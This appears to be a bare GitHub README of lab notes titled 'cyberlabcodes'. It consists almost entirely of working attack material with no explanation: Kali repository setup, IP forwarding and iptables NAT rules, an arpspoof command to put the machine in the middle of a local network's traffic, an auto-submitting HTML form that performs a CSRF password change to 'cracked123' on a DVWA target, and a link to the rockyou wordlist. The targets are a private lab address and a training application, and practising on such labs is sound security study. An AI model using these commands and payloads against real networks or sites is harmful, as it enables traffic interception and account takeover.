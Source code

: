 # cyberlabcodes
test
deb http://http.kali.org/kali kali-rolling main contrib non-free
sudo apt-key adv --keyserver keyserver.ubuntu.com --recv-keys ED65462EC8D5E4C5


sudo sysctl -w net.ipv4.ip_forward=1

cat /proc/sys/net/ipv4/ip_forward

sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE

sudo iptables -A FORWARD -i eth0 -j ACCEPT

sudo arpspoof -i eth0 -t 192.168.128.2 192.168.128.1

<body onload="document.forms[0].submit()">
<form action="http://192.168.128.2/dvwa/vulnerabilities/csrf/">
  <input type="hidden" name="password_new"  value="cracked123">
  <input type="hidden" name="password_conf" value="cracked123">
  <input type="hidden" name="Change"        value="Change">
</form>
</body>


https://github.com/brannondorsey/naive-hashcat/blob/master/rockyou.txt

